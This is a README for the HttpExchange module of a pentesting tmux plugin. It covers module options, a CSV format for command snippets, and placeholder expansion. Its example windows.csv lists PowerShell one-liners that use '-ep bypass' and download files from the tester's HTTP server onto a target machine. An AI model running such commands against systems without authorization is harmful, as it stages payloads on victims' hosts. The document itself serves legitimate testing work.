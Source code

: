 # HttpExchange Module

This module provides a simple but efficient way of file download from the host to the target systems. It is using python http server and predefined commands / scripts to be used on the target.

It can be extended by csv files with new commands as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|CommandSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/comm/HttpExchange/commands | The search path for csv files providing commands |
|NoConfirm | Boolean | false | If this option is true the selected command will be send to the tmux pane including enter, so that it will run directly |
|HttpHost | String | 127.0.0.1 | The http server address to use |
|HttpPort | Integer | 8080 | The http server port to use |
|UseSessionDir | Boolean | true | If enabled it will use the session directory (if working inside a session) and place the http root folder underneeth it |
|HttpRootDirBase | String | $HOME/.tmux/penmux/httpexchange/#S/ | The default directory used as http root dir (if no session or UseSessionDir is false). Every tmux formats can be used |

## 3. Adding snippets

You can extend the HttpExchange with commands to your like. Either by extending existing csv files or creating new ones. The module is loading any csv file from the 'CommandSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any commands, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of commands, you need to create two files (csv and desc) under any sub folder inside the 'CommandSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/comm/HttpExchange/commands/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/HttpExchange/commands/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/comm/HttpExchange/commands/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | command |
|------|-------------|---------|
|Unique name which is shown in the selector | A description of what the command is doing | The command, which is to be executed |

As example checkout the windows group under 'commands'

windows.desc (this is the description shown by the selection window):
```
Predefined windows download commands
```
windows.csv (this is the csv file containing the command definitions):
```
name,description,command
psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
psIwrTemp,Download file using powershell webrequest into temp dir,powershell -nop -ep bypass iwr -outfile $env:TEMP/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
psIwr,Download file using powershell webrequest into act dir,powershell -nop -ep bypass iwr -outfile $$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
```

### Breaking it down

Let's check out one line to get an idea on what is going on:
```
psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
```
- The first part `psIwrHome` is just the selector name shown to the user.
- The second part `Download file using powershell webrequest into home dir` is just the description of what the command will do shown to the user.
- The third part `powershell -nop -ep bypass iwr -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$` is the command that will be pasted into the target pane. The two placeholders `$$fileName$$` and `$$file$$` are for the following reason: `$$file$$` will be a relative path beneath the http root dir (recursive scan) and `$$fileName$$` will be the extracted file name without the path (used at the target to save the file)

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**
